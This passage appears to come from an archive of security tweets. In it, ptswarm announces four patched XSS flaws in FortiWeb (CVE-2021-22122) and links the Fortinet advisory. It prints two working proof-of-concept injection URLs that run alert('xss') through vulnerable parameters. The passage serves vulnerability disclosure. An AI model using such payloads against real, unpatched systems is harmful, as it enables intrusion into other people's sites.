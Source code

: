 <td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1357316793753362433 _at 2021-02-04 13:15:16_**
<blockquote>
4 XSS in FortiWeb (CVE-2021-22122), found by Andrey Medov, have been patched.

Two example PoCs:

1⃣ /error3?msg=30&amp;data=';alert('xss');//
2⃣ /omni_success?cmdb_edit_path=");alert('xss');//

Advisory: https://t.co/AP3YiNffWY https://t.co/jCOILHKWc4
</blockquote>

* https://www.fortiguard.com/psirt/FG-IR-20-122

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtYkmYpXEAYd4Ug.png" alt="http://pbs.twimg.com/media/EtYkmYpXEAYd4Ug.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>309</code></td>
</tr></table>

---